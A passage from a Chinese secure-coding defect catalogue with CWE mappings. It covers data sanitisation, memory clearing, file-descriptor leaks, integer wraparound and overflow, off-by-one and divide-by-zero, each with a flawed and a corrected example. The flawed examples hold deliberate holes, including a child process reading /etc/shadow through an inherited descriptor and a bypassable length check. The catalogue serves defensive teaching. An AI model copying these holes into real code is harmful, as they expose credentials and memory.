                <xsd:complexType>
                    <xsd:sequence>
                        <xsd:element name="name" type="xsd:string"/>
                    </xsd:sequence>
                </xsd:complexType>
            </xsd:element>
        </xsd:schema>
    </wsdl:types>

</wsdl:definitions>
```

**修复建议**
WSDL文件中仅声明可外部访问的API。

#### CWD-1287-000 WSDL文件包含敏感信息

**业界缺陷**

- [CWE-651: Exposure of WSDL File Containing Sensitive Information](https://cwe.mitre.org/data/definitions/651.html)
---

# CWD-1288 敏感信息在存储或传输前处理不当

**别名: **未进行跨边界清理导致信息泄露；跨边界清理不当；跨边界敏感数据移除不当

**描述**
产品存储、传输或共享包含敏感信息的资源，但在未充分移除这些信息的情况下，就将资源（可能含有敏感数据的资源包括文档、数据包、消息、数据库等）提供给未授权方。虽然这些数据对单个用户或共享资源的小范围用户群体具有使用价值，但在与可信群组之外的对象共享前，往往需要彻底清除（此类信息清除过程有时被称为数据净化）这些信息。


- 例如：某文档编辑产品可能未彻底清除修订意见或文档存储本地路径等敏感数据；某代理服务器在向互联网网站发送对外请求时，未彻底清除数据包头中的内部IP地址。
**语言: **C,CPP,JAVA

**严重等级**
致命

**cleancode特征**
可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：数据分类与标识
  在系统设计阶段，明确定义哪些是敏感信息（如个人身份信息、内部IP、文件路径、系统元数据）。
- 策略2：最小化原则
  设计上遵循“按需知情”原则，只共享完成特定功能所必需的最小数据集。
- 策略3：净化接口设计
  为需要对外共享的资源设计专门的、强制的“净化”接口或服务。例如，定义一个 DocumentSanitizer 接口，所有对外文档必须通过它处理。
- 策略4：可信边界定义
  清晰界定系统的信任边界（如内部网络 vs. 公网，认证用户 vs. 匿名用户），并规定数据跨越边界时必须执行的净化流程。

**编码**
- 策略1：使用经过验证的净化库
  避免手动编写复杂的正则表达式来清除数据。使用如 Apache Tika（用于文档元数据清除）、OWASP Java HTML Sanitizer（用于Web内容）等成熟库。
- 策略2：白名单机制
  采用白名单策略，即只保留允许传输的字段，而不是试图列出并删除所有敏感字段（黑名单）。黑名单极易遗漏。
- 策略3：代码注释
  在涉及数据共享或传输的代码处，添加明确注释，说明数据流向和净化要求。

**开发者测试**
- 策略1：单元测试覆盖净化逻辑
  为每个净化函数编写详尽的单元测试，测试用例应包括：
- 策略2：包含各种敏感信息的输入。
- 策略3：不包含敏感信息的输入。
- 策略4：边界情况。
- 策略5：验证输出中不包含敏感信息，而保留了非敏感信息。
- 策略6：自动化安全测试工具
  在开发环境中运行静态代码分析工具（如 codecheck, SecFuzz），其规则库应包含对常见敏感信息泄露模式的检查。

**代码Review**
- 策略1：重点关注数据流
  Review时，特别关注数据从“产生/存储”到“发送/共享”的完整路径。
- 策略2：检查净化点
  确认在数据离开应用或可信边界之前，是否调用了正确的净化方法。
- 策略3：挑战设计
  提问“为什么这个字段需要发送给对方？”，确保遵循数据最小化原则。

**编译构建**
- 策略1：依赖项检查：在构建过程中使用如 HUAWEI fossbot，OWASP Dependency-Check 等工具，扫描项目依赖的第三方库是否存在已知安全漏洞，避免因库的漏洞导致敏感信息泄露。
- 策略2：版本管理：确保构建使用的是稳定、安全的净化库版本。

**代码检查**
- 策略1：集成静态应用程序安全测试（SAST）
  在CI/CD流水线中集成SAST工具（如 codecheck, SecFuzz）。配置规则以检测。
- 策略2：硬编码的敏感信息。
- 策略3：向外部系统输出数据时，未经过滤直接使用内部对象。
- 策略4：日志记录中可能包含敏感数据。
- 策略5：自定义规则
  根据业务需要，为SAST工具编写自定义规则，检查特定于业务的敏感数据（如特定的HTTP头、自定义元数据字段）是否被不当输出。

**集成测试**
- 策略1：动态应用程序安全测试（DAST）
  使用DAST工具（如 OWASP ZAP）对运行中的系统进行渗透测试，扫描HTTP响应、文档、错误信息等是否包含敏感数据。
- 策略2：模糊测试
  向系统输入异常、意外或随机的数据，观察其响应中是否会泄露内部错误信息或敏感数据。
- 策略3：数据流验证测试
  编写端到端的集成测试用例，模拟完整的数据共享场景，并验证最终输出结果中不包含任何预设的敏感信息。

**示例**
**案例1: 内部对象直接输出，泄露敏感数据**
**语言: **JAVA

**描述**
某个服务，从数据库获取一个“用户文档”对象，然后将其转换为JSON格式发送给一个外部分析平台。这个文档对象包含了一些用于内部处理的元数据。

**案例分析**

1. **问题所在**：`exportDocumentForExternalUse` 方法直接将完整的 `Document` 对象序列化为JSON。`Document` 对象是一个“内部数据模型”，包含了大量仅供内部使用的敏感字段（`serverIp`, `storageBucket`, `filePath` 等）。

2. **后果**：当这个JSON被发送给外部分析平台时，攻击者或未经授权的内部人员可以从该平台获取到公司的内部网络拓扑（IP地址）、文件存储结构、员工信息等敏感数据，为后续攻击提供了宝贵情报。

3. **根本原因**：违反了“数据最小化”和“净化”原则。内部数据模型被直接用于外部接口，没有进行任何过滤。

**反例**
```java
public class DocumentService {

    // 模拟从数据库获取文档
    public Document getDocumentById(String id) {
        // 这里模拟从数据库查询并返回一个Document对象
        // 实际上，这个Document可能包含许多内部字段
        return new Document(
            id,
            "季度财报.pdf",        // 文件名
            "这份文档包含了公司的机密财务数据...", // 内容
            "192.168.1.105",      // 内部服务器IP（上传位置）
            "cnb-sg-internal-prod", // 内部存储桶名称
            "张伟(IT部)",          // 最后修改者（包含部门信息）
            "/mnt/internal-fs/projects/confidential/", // 内部文件存储路径
            "2023-10-27 08:15:00" // 修改时间
        );
    }

    // 将文档转换为JSON并发送给外部系统（有缺陷）
    public String exportDocumentForExternalUse(String documentId) {
        Document doc = getDocumentById(documentId);
  
        // 问题：直接将完整的内部Document对象转换为JSON！
        // 这会导致所有内部字段都泄露给外部系统。
        ObjectMapper mapper = new ObjectMapper();
        try {
            String jsonOutput = mapper.writerWithDefaultPrettyPrinter().writeValueAsString(doc);
            // 模拟发送JSON到外部系统
            // sendToExternalAnalyticsPlatform(jsonOutput);
            return jsonOutput; // 返回JSON用于演示
        } catch (JsonProcessingException e) {
            e.printStackTrace();
            return "{}";
        }
    }

    // Document 类
    public static class Document {
        private String id;
        private String fileName;
        private String content;
        private String serverIp;       // 敏感：内部IP
        private String storageBucket;  // 敏感：内部基础设施信息
        private String lastModifiedBy; // 敏感：包含内部组织结构的用户名
        private String filePath;       // 敏感：内部文件系统路径
        private String modifiedTime;

        // 构造函数、Getter和Setter省略...
        public Document(String id, String fileName, String content, String serverIp, 
                        String storageBucket, String lastModifiedBy, String filePath, String modifiedTime) {
            this.id = id;
            this.fileName = fileName;
            this.content = content;
            this.serverIp = serverIp;
            this.storageBucket = storageBucket;
            this.lastModifiedBy = lastModifiedBy;
            this.filePath = filePath;
            this.modifiedTime = modifiedTime;
        }
        // ... Getters and Setters
    }

    public static void main(String[] args) {
        DocumentService service = new DocumentService();
        String json = service.exportDocumentForExternalUse("doc-123");
        System.out.println("发送给外部的JSON：\n" + json);
    }
}
```

**输出结果（包含敏感信息）：**

```java
{
  "id" : "doc-123",
  "fileName" : "季度财报.pdf",
  "content" : "这份文档包含了公司的机密财务数据...",
  "serverIp" : "192.168.1.105",
  "storageBucket" : "cnb-sg-internal-prod",
  "lastModifiedBy" : "张伟(IT部)",
  "filePath" : "/mnt/internal-fs/projects/confidential/",
  "modifiedTime" : "2023-10-27 08:15:00"
}
```

**正例**
```java
public class SecureDocumentService {

    // 1. 为外部消费者定义一个专用的、纯净的DTO
    public static class ExternalDocumentDto {
        private String id;
        private String fileName;
        private String content; // 假设内容允许对外分享
        private String modifiedTime; // 只对外提供时间，不提供其他元数据

        public ExternalDocumentDto(String id, String fileName, String content, String modifiedTime) {
            this.id = id;
            this.fileName = fileName;
            this.content = content;
            this.modifiedTime = modifiedTime;
        }
        // ... Getters (No Setters to promote immutability)
    }

    // 模拟从数据库获取文档（与有缺陷版本相同）
    public Document getDocumentById(String id) {
        return new Document(
            id,
            "季度财报.pdf",
            "这份文档包含了公司的机密财务数据...",
            "192.168.1.105",
            "cnb-sg-internal-prod",
            "张伟(IT部)",
            "/mnt/internal-fs/projects/confidential/",
            "2023-10-27 08:15:00"
        );
    }

    // 2. 净化方法：将内部Document转换为安全的ExternalDocumentDto
    private ExternalDocumentDto sanitizeDocumentForExport(Document internalDoc) {
        // 采用白名单策略：只拷贝明确允许的字段。
        return new ExternalDocumentDto(
            internalDoc.getId(),
            internalDoc.getFileName(),
            internalDoc.getContent(),
            internalDoc.getModifiedTime() // 注意：即使是时间，有时也需要考虑是否敏感
        );
        // 敏感字段如 serverIp, storageBucket 等被彻底排除。
    }

    // 将文档转换为JSON并发送给外部系统（已修复）
    public String exportDocumentForExternalUse(String documentId) {
        Document internalDoc = getDocumentById(documentId);
  
        // 关键步骤：在序列化之前进行数据净化
        ExternalDocumentDto safeDto = sanitizeDocumentForExport(internalDoc);
  
        ObjectMapper mapper = new ObjectMapper();
        try {
            String jsonOutput = mapper.writerWithDefaultPrettyPrinter().writeValueAsString(safeDto);
            // sendToExternalAnalyticsPlatform(jsonOutput);
            return jsonOutput;
        } catch (JsonProcessingException e) {
            e.printStackTrace();
            return "{}";
        }
    }

    // ... Document类定义与之前相同，此处省略 ...

    public static void main(String[] args) {
        SecureDocumentService service = new SecureDocumentService();
        String json = service.exportDocumentForExternalUse("doc-123");
        System.out.println("发送给外部的安全JSON：\n" + json);
    }
}
```

**输出结果（已净化，仅包含必要信息）：**

```java
{
  "id" : "doc-123",
  "fileName" : "季度财报.pdf",
  "content" : "这份文档包含了公司的机密财务数据...",
  "modifiedTime" : "2023-10-27 08:15:00"
}
```

**修复建议**
为不同的数据消费者创建不同的数据模型（视图）。为外部系统创建一个专用的、纯净的**数据传输对象（DTO）**，并在数据跨越信任边界时，只从内部对象拷贝允许外泄的字段。

- 通过引入 **DTO（数据传输对象）** 和 **白名单净化方法**，确保只有经过明确授权的数据才会被共享到外部系统。这种方法从设计上杜绝了敏感信息泄露的风险。

#### CWD-1288-000 在存储或传输之前未正确删除敏感信息

#### CWD-1288-001 Rest接口响应体中包含不需要的敏感信息

#### CWD-1288-002 日志中打印敏感异常对象

#### CWD-1288-003 shell查询脚本响应数据中包含敏感信息

**业界缺陷**

- [CWE-212: Improper Removal of Sensitive Information Before Storage or Transfer](https://cwe.mitre.org/data/definitions/212.html)
---

# CWD-1289 敏感信息使用完毕后未清理

**描述**
敏感信息（如密码、密钥、个人数据等）在使用后未被正确清除，导致这些信息可能残留在内存中。这种未清理或清理不当的情况，可能导致敏感数据被攻击者获取或无意间泄露给低权限用户。为减少敏感数据在内存中的保留时间，应使用结束后立即清零，从而降低敏感数据泄露的风险。

**语言: **C,CPP,JAVA,GO,SHELL

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：在设计阶段明确数据生命周期管理，确保敏感信息在使用后被及时清除

**编码**
- 策略1：在代码中显式调用内存清除函数，如memset，确保敏感数据被正确清除。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测敏感信息使用完毕后未清理问题。

**示例**
**案例1: 内存中的敏感信息使用完毕后没有清零**
**语言: **C

**描述**
使用含有敏感信息的局部变量（指针或数组），在退出该变量作用域前没有清除敏感信息的情况。

**反例**
```c
void TestBad()
{
    char psw[10] = { 0 }; // 敏感信息相关变量
    Use(psw);
    /* 不符合: the local variable 'psw' is sensitive information, it should be cleard by memset_s or VOS_memset_s
    before function end. */
}
```

**正例**
```c
void TestGood()
{
    char psw[10] = {0};
    Use(psw);
    memset_s(psw, sizeof(psw), 0, sizeof(psw)); // 符合
}
```

**修复建议**
内存中的敏感信息使用完毕后立即清零。默认清除敏感信息的函数包括：memset、memset_s、SecureZeroMemory、VOS_MemSet_Safe、VOS_memset_s、VOS_MemSet_cov等。

**案例2: 内存中的敏感信息使用完毕后没有清零**
**语言: **GO

**描述**
使用含有敏感信息的局部变量，在退出该变量作用域前没有清除敏感信息的情况。

**反例**
```go
const pwdMaxLen = 20

func getPassword() (*[pwdMaxLen]byte, error) {
    f, err := os.Open("/secure_area/secue_dat")
    ...
    pwd := new([pwdMaxLen]byte) // 注：如直接定义数组，必须返回数组地址，以保证pwd数组本身会被创建在堆上
    _, err = f.Read(pwd[:])
    return pwd, err
}

func doSomething(){
    password, err := getPassword()
    if err != nil {
        ... // log & return
    }
    verifyPassword(password)
} // 不符合：password未清理
```

**正例**
```go
const pwdMaxLen = 20

func getPassword() (*[pwdMaxLen]byte, error) {
    f, err := os.Open("/secure_area/secue_dat")
    ...
    pwd := new([pwdMaxLen]byte) // 注：如直接定义数组，必须返回数组地址，以保证pwd数组本身会被创建在堆上
    _, err = f.Read(pwd[:])
    return pwd, err
}

func doSomething(){
    password, err := getPassword()
    if err != nil {
        ... // log & return
    }
    verifyPassword(password)
    // 注：如果 getPassword() 到清除位置上可能导致异常，应确保异常分支敏感内存数据也得到清理
    for i := 0; i < len(password); i++{ // 符合
        password[i] = 0
    }
}
```

**修复建议**
使用[]byte存储敏感数据，使用结束后立即清零。在处理敏感信息时，确保在异常情况下也能清理内存中的敏感数据，以防止信息泄露。

#### CWD-1289-000 敏感信息使用完毕后未清理

#### CWD-1289-001 内存中的敏感信息使用完毕后未立即清理

**业界缺陷**

- [CWE-226: Sensitive Information in Resource Not Removed Before Reuse](https://cwe.mitre.org/data/definitions/226.html)
---

# CWD-1292 文件描述符泄露

**描述**
在操作系统中，当父进程通过fork()或exec()创建子进程时，所有已打开的文件描述符（例如操作日志、配置文件或特权文件的访问句柄）会默认传递给子进程。如果父进程未主动关闭敏感文件描述符，子进程将凭借这些“继承权”绕过系统的文件权限检查机制。例如：即使子进程被降权为普通用户，仍可通过父进程遗留的高权限文件描述符直接读写受保护文件（如/etc/passwd），导致权限边界被突破。这种因描述符未显式关闭引发的漏洞隐蔽性极强，攻击者可利用子进程执行数据篡改、敏感信息窃取，甚至以父进程的高权限为跳板发起提权攻击，对系统安全性构成系统性威胁。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：采用权限隔离架构  
设计时明确权限边界，划分高/低权限模块。禁止子进程持有非必要的文件描述符，可通过中间进程（Proxy）或沙箱机制隔离敏感操作。
- 策略2：描述符生命周期管理  
（1）强制在进程启动时执行文件描述符自检（例如通过/proc/self/fd扫描异常FD）。  
（2）定义资源白名单机制，在调用fork()/exec()前关闭未在白名单内的文件描述符。

**编码**
- 策略1：显式关闭敏感文件描述符  
在调用fork()或exec()前，关闭非必要的文件描述符。
- 策略2：强制设置close-on-exec标志  
使用`fcntl()`函数的标志位`FD_CLOEXEC`实现。
- 策略3：权限降级时清除FD  
在调用setuid()/setgid()降权前，关闭高权限FD，防止提权攻击。

**开发者测试**
- 策略1：FD继承单元测试   
编写自动化测试用例，模拟fork()/exec()流程后验证子进程FD数量及权限。
- 策略2：降权穿透测试  
构造子进程降权场景（如切换非root用户），验证通过继承的FD访问特权文件时是否触发权限错误。

**代码Review**
- 策略1：高危代码模式检查  
（1）审核所有fork()/exec()调用点，确认上下文是否包含敏感FD操作。
（2）标记未设置FD_CLOEXEC的open()/socket()调用为风险点。
- 策略2：权限操作审计  
检查setuid()/chroot()等降权函数附近是否存在未关闭的高权限FD。

**代码检查**
- 策略1：工具静态安全扫描  
  选择对应的规则来检测 **文件描述符泄露** 问题。

**集成测试**
- 策略1：动态FD追踪测试
使用strace或ltrace监控子进程FD继承行为。
- 策略2：模糊测试  
通过Fuzzer构造异常路径触发FD泄漏（如进程崩溃前未关闭FD），验证防护机制有效性。

**示例**
**案例1: 特权进程未关闭敏感文件描述符导致提权**
**语言: **C

**描述**
子进程降权后，仍可通过父进程遗留的secret_fd绕过权限限制，直接读取受保护的/etc/shadow文件。

**反例**
```c
#include <unistd.h>  
#include <fcntl.h>  
#include <sys/stat.h>  

int main() {  
    // 特权进程以root身份打开受保护文件  
    int secret_fd = open("/etc/shadow", O_RDONLY);  

    pid_t pid = fork();  
    if (pid == 0) {  
        // 子进程降权为普通用户  
        setuid(1000);  

        // 子进程通过继承的FD读取高权限文件  
        char buf[1024];  
        read(secret_fd, buf, sizeof(buf));  
        // ... (攻击者可在此篡改或泄露数据)  
    }  
    close(secret_fd);  
    return 0;  
}  
```

**正例**
```c
// 修改后的关键代码  
pid_t pid = fork();  
if (pid == 0) {  
    close(secret_fd);      // 子进程关闭继承的FD  
    setuid(1000);          // 降权操作  
    // 子进程后续代码无权访问secret_fd  
} else {  
    close(secret_fd);      // 父进程也需及时关闭  
}  
```

**修复建议**
1、显式关闭文件描述符：在fork()后立即关闭父进程的高权限FD。
2、降权前清理资源：在调用setuid()前关闭所有敏感FD。

#### CWD-1292-000 文件描述符泄露

**业界缺陷**

- [CWE-403: Exposure of File Descriptor to Unintended Control Sphere ('File Descriptor Leak')](https://cwe.mitre.org/data/definitions/403.html)
---

# CWD-1295 整数回绕

**描述**
无符号整数类型表示的数值范围是固定的（从0到2n - 1），如果无符号整数运算的结果不在此范围内，就会导致整数回绕，既这个结果将会根据该类型可以表示的最大值加1执行求模操作。无符号整数的回绕会发生在如下操作中：`+`、`-`、`*`、`++`、`--`、`+=`、`-=`、`*=`等。整数回绕使得实际计算结果与预期结果不符，可能会引发缓冲区溢出、内存越界、死循环等问题。为了防止整数回绕问题，可以采取以下措施：


1. 使用适当的数据类型：选择足够大的数据类型来存储运算结果，避免回绕。2. 检查回绕条件：在进行可能回绕的运算前，检查操作数是否会导致回绕。
**语言: **C,CPP,JAVA,GO,RUST

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确数据来源和边界条件
  在设计阶段，明确数据来源和边界条件。对于外部数据，设计输入验证机制，确保数据在合理范围内。对于内部数据，设计计算逻辑时考虑边界情况，避免回绕。

**编码**
- 策略1：选择合适的数据类型
  根据预期的数值范围选择合适的数据类型，避免使用过小的类型导致溢出或回绕。
- 策略2：添加边界检查
  在进行算术运算时，检查操作是否会超出类型范围。
    ```
    uint32_t a, b, c;

    // 加法运算
    if (a > (UINT_MAX - b)) { // 添加边界检查
        // 回绕处理
    } else {
        c = a + b;
    }

    // 减法运算
    if (a < b) { // 添加边界检查
        // 回绕处理
    } else {
        c = a - b;
    }

    // 乘法运算
    if (a != 0 && b > (UINT_MAX / a)) { // 添加边界检查
        // 回绕处理
    } else {
        c = a * b;
    }

    // 自增运算
    if (a != UINT_MAX) { // 添加边界检查
        a++;
    }

    // 自减运算
    if (a != 0) { // 添加边界检查
        a--;
    }
    ```

**开发者测试**
- 策略1：编写边界条件测试用例
  测试数值接近类型最小值、最大值的情况，确保程序正确处理。

**代码Review**
- 策略1：检查数据类型和运算
  审查变量类型是否合适，运算是否可能导致溢出或回绕。
- 策略2：确保边界检查到位
  确认关键点有适当的检查，防止溢出或回绕。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测溢出或回绕问题。

**示例**
**案例1: 加法导致的整数回绕且校验条件错误**
**语言: **C

**描述**
校验下一个子报文的长度加上已处理报文的长度是否超过了整体报文的最大长度，在校验条件中的加法运算可能会出现整数回绕，造成绕过该校验的问题。

**案例分析**
当readLen和pktLen的和超过totalLen时，可能会因为整数回绕而被误判为未超过，从而允许处理超出预期长度的数据。

**反例**
```c
size_t totalLen = ... // 报文的总长度
size_t readLen = 0    // 记录已经处理报文的长度
...
size_t pktLen = ParsePktLen();     // 从网络报文中解析出来的下一个子报文的长度
if (readLen + pktLen > totalLen) { // 不符合：当readLen和pktLen的和超过totalLen时，可能会因为整数回绕而被误判
  ... // 错误处理
}
...
readLen += pktLen;
...
```

**正例**
```c
size_t totalLen = ... // 报文的总长度
size_t readLen = 0;   // 记录已经处理报文的长度
...
size_t pktLen = ParsePktLen(); // 来自网络报文
if (pktLen > totalLen - readLen) { // 符合：正确的校验方法
  ... // 错误处理
}
...
readLen += pktLen; // 符合
...
```

**修复建议**
在加法运算前，检查其中一个操作数是否超过了目标最大值减去另一个操作数。

#### CWD-1295-000 整数回绕

#### CWD-1295-001 无符号整数参与加法运算，运算前未校验，导致整数回绕

#### CWD-1295-002 无符号整数参与加法运算，运算前校验错误，导致整数回绕

#### CWD-1295-003 无符号整数参与减法运算，运算前未校验，导致整数回绕

#### CWD-1295-004 无符号整数参与减法运算，运算前校验错误，导致整数回绕

#### CWD-1295-005 无符号整数参与乘法运算，运算前未校验，导致整数回绕

#### CWD-1295-006 无符号整数参与乘法运算，运算前校验错误，导致整数回绕

**业界缺陷**

- [CWE-128: Wrap-around Error](https://cwe.mitre.org/data/definitions/128.html)
---

# CWD-1296 整数溢出

**描述**
有符号整数，当结果值超出边界时，就会导致有符号整数溢出，且溢出的结果是未定义的。有符号整数的溢出会发生在如下操作中：`+`、`-`、`*`、`/`、`%`、`++`、`--`、`+=`、`-=`、`*=`、`/=`、`%=`、`<<=`、`<<` 和 `一元否定-`。

整数溢出使得实际计算结果与预期结果不符，若结果值用来计算缓冲区大小、数组索引等，可能会产生其他不可预知的安全风险。为了防止整数溢出问题，可以采取以下措施：


1. 使用适当的数据类型：选择足够大的数据类型来存储运算结果，避免溢出。2. 检查溢出条件：在进行可能溢出的运算前，检查操作数是否会导致溢出。
**语言: **C,CPP,JAVA,GO,C#

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确数据来源和边界条件
  在设计阶段，明确数据来源和边界条件。对于外部数据，设计输入验证机制，确保数据在合理范围内。对于内部数据，设计计算逻辑时考虑边界情况，避免溢出。

**编码**
- 策略1：选择合适的数据类型
  根据预期的数值范围选择合适的数据类型，避免使用过小的类型导致溢出或回绕。
- 策略2：添加边界检查
  在进行算术运算时，检查操作是否会超出类型范围。
    ```
    int a, int b, int c;

    // 加法运算
    if (((a > 0) && (b > (INT_MAX - a))) || // 添加边界检查
        ((a < 0) && (b < (INT_MIN - a)))) {
        ... // 错误处理
    }
    c = a + b;
    ```

**开发者测试**
- 策略1：编写边界条件测试用例
  测试数值接近类型最小值、最大值的情况，确保程序正确处理。

**代码Review**
- 策略1：检查数据类型和运算
  审查变量类型是否合适，运算是否可能导致溢出或回绕。
- 策略2：确保边界检查到位
  确认关键点有适当的检查，防止溢出或回绕。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测溢出或回绕问题。

**示例**
**案例1: 取反类型最小值时会导致溢出**
**语言: **C

**描述**
因为有符号的范围是[-2^n, 2^n-1]，在操作数的数值为最小的有符号整数时，取反会导致溢出。

**反例**
```c
void Func(signed int iA)
{
    printf("iA=%d\n",iA);
    signed int iResult = -iA; // 不符合：iA是INT_MIN时，取反会导致溢出
    printf("The result is: %d\n", iResult);
}
```

**正例**
```c
void Func(signed int iA)
{
    signed int iResult = 0;
    if (iA == INT_MIN) { // 先校验
        printf("Overflow!!\n");
        return;
    }

    iResult = -iA; // 符合
    printf("The result is: %d\n", iResult);
}
```

**修复建议**
在取反操作之前，检查操作数是否为类型最小值。如果是，则处理此异常情况，避免执行取反操作。

#### CWD-1296-000 整数溢出

#### CWD-1296-001 有符号整数参与加法运算，运算前未校验，导致整数溢出

#### CWD-1296-002 有符号整数参与加法运算，运算前校验错误，导致整数溢出

#### CWD-1296-003 有符号整数参与减法运算，运算前未校验，导致整数溢出

#### CWD-1296-004 有符号整数参与减法运算，运算前校验错误，导致整数溢出

#### CWD-1296-005 有符号整数参与乘法运算，运算前未校验，导致整数溢出

#### CWD-1296-006 有符号整数参与乘法运算，运算前校验错误，导致整数溢出

#### CWD-1296-007 有符号整数参与除法运算，运算前未校验，导致整数溢出

#### CWD-1296-008 有符号整数参与除法运算，运算前校验错误，导致整数溢出

#### CWD-1296-009 有符号整数参与取余运算，运算前未校验，导致整数溢出

#### CWD-1296-010 有符号整数参与取余运算，运算前校验错误，导致整数溢出

#### CWD-1296-011 有符号整数参与一元减运算，运算前未校验，导致整数溢出

#### CWD-1296-012 有符号整数参与一元减运算，运算前校验错误，导致整数溢出

**业界缺陷**

- [CWE-191: Integer Underflow (Wrap or Wraparound)](https://cwe.mitre.org/data/definitions/191.html)
---

# CWD-1297 差一错误

**描述**
差一错误（Off-by-one error）通常发生在循环控制、数组索引、字符串操作等场景中，导致程序在计算或使用最大值、最小值时，出现比正确值多1或少1的情况，从而引发逻辑错误或安全漏洞。为了避免off-by-one error，需要仔细检查代码中的计算和判断，确保它们正确地处理边界条件。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：边界正确检查
  在访问数组、容器或数据结构时，确保索引或计数器的范围始终在有效区间内。例如，对于大小为 N 的数组，索引应满足 0 <= index < N。特别注意循环条件中的边界校验，避免条件写错（如 <= 与 < 的混淆）。

- 策略2：使用华为安全函数
  建议使用华为安全函数中的字符串操作函数，例如strcpy_s、strncpy_s、strcat_s、snprintf_s等函数，在函数执行成功的情况下确保目的缓冲区以’\0’结尾。

**开发者测试**
- 策略1：边界正确检查
  编写单元测试，覆盖各种边界情况，包括数组的第一个元素（index = 0）、最后一个元素（index = N-1）、空数组（N = 0）以及超出范围的索引（index < 0 或 index >= N）。

**代码Review**
- 策略1：审查索引和边界逻辑
  重点关注数组、容器和循环的索引逻辑，检查是否存在越界风险。例如：
  - 数组索引是否在有效范围内（如 index < N 而不是 index <= N）。
  - 循环条件是否正确处理边界情况（如 i < N 而不是 i <= N）。
  - 是否存在潜在的越界操作（如 index++ 后未重新检查边界）。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测循环条件、数组索引等中常见的差一错误问题。

**示例**
**案例1: 数组索引边界检查错误导致的off-by-one**
**语言: **C

**描述**
在C语言中，数组索引从0开始，因此数组的有效索引范围是0到长度减一。直接使用数组长度作为索引，会导致数组访问越界。

**案例分析**
SetDevId()函数存在差一错误，当 index 等于 DEV_NUM 时，恰好越界写一个元素。

**反例**
```c
#define DEV_NUM 10
#define MAX_NAME_LEN 128
typedef struct {
    int id;
    char name[MAX_NAME_LEN];
} Dev;

static Dev devs[DEV_NUM];

int SetDevId(size_t index, int id)
{
    if (index > DEV_NUM) {    // 不符合：差一错误。
        ... // 错误处理
    }

    devs[index].id = id;
    return 0;
}
```

**正例**
```c
int SetDevId(size_t index, int id)
{
    if (index >= DEV_NUM) { // 符合
        ... // 错误处理
    }
    devs[index].id = id;
    return 0;
}
```

**修复建议**
在访问数组元素之前，确保索引在有效范围内。对于大小为 N 的数组，索引应满足 0 <= index < N。

**案例2: 循环条件错误导致的off-by-one**
**语言: **CPP

**描述**
循环条件写错：将<写成<=，导致off-by-one错误，

**案例分析**
循环从0到n，包括n。但是数组的大小是n，索引应该是0到n - 1。当i = n时，arr[n]已经超出了数组的范围，导致未定义行为。

**反例**
```c
...
int* arr = (int*)malloc(n * sizeof(int));
...
for (int i = 0; i <= n; i++) { // 不符合：错误的循环条件导致off-by-one错误
    arr[i] = i + 1; // 当i = n时，访问arr[n]超出数组范围
}
...
```

**正例**
```c
...
int* arr = (int*)malloc(n * sizeof(int));
..
for (int i = 0; i < n; i++) { // 符合
    arr[i] = i + 1;
}
...
```

**修复建议**
确保循环变量的范围与数组的索引范围一致。对于大小为N的数组，循环条件应为i < N。

#### CWD-1297-000 差一错误

#### CWD-1297-001 循环条件设置错误，导致循环多执行或少执行一次

#### CWD-1297-002 数组索引设置错误，导致数组越界访问一个元素

#### CWD-1297-003 字符串长度设置错误，导致字符串越界访问一个字符

**业界缺陷**

- [CWE-193: Off-by-one Error](https://cwe.mitre.org/data/definitions/193.html)
---

# CWD-1298 除0错误

**描述**
除法或模运算中的除数为零可能会导致程序终止或拒绝服务（DoS），因此需要在运算前保证除数不为0。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：显式的除数检查
  在执行除法或模运算前，使用条件语句检查除数是否为零。如果为零，采取适当的处理措施，如抛出异常、记录错误日志或返回错误状态等。

**开发者测试**
- 策略1：测试除数为零的情况
  编写单元测试用例，专门测试除数为零的情况。确保测试覆盖所有可能的除法和模运算场景，验证错误处理机制的有效性。

**代码Review**
- 策略1：关注除法和模运算
  在代码审查过程中，特别关注除法和模运算部分，确保每个操作都包含除数检查。检查处理逻辑是否正确，确保没有遗漏或错误的处理方式。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测除数为零问题。

**示例**
**案例1: 使用可能为0的外部数据作为取模操作的除数**
**语言: **C

**描述**
取模操作（%）时，如果除数为0，会导致未定义行为。

**案例分析**
检查了numA和numB是否为INT_MIN和-1的情况，但没有检查numB是否为0，导致可能的除零错误。

**反例**
```c
int numA = ... // 来自外部数据
int numB = ... // 来自外部数据
int result = 0;
if ((numA == INT_MIN) && (numB == -1)) {
    ... // 错误处理
}
result = numA / numB; // 不符合：可能出现除零错误
...
```

**正例**
```java
int numA = ... // 来自外部数据
int numB = ... // 来自外部数据
int result = 0;
if ((numB == 0) || ((numA == INT_MIN) && (numB == -1))) { // 添加numB是否为0的校验
    ... // 错误处理
}
result = numA / numB; // 符合
...
```

**修复建议**
检查除数是否为0：在进行取模操作之前，检查除数是否为0。

**案例2: 使用空集合的size值作为取模操作的除数**
**语言: **JAVA

**描述**
在使用集合的size()作为除数之前，未检查集合是否为空，导致除零错误。

**案例分析**
在getAddr方法里，获取了一个HostAddress的列表addr。然后直接用addr.size()作为除数，计算newPos。如果addr为空，size()会是0，导致除以零的错误，程序会崩溃。

**反例**
```java
private HostAddress getAddr() {
    List<HostAddress> addr = nebulaSessPoolConfig.getGraphAddrArray();

    // 【不符合】 集合中的元素数量可能为0
    int newPos = (pos.getAndIncrement()) % addr.size();
    return addr.get(newPos);
}
```

**正例**
```java
private HostAddress getAddr() {
    List<HostAddress> addr = nebulaSessPoolConfig.getGraphAddrArray();
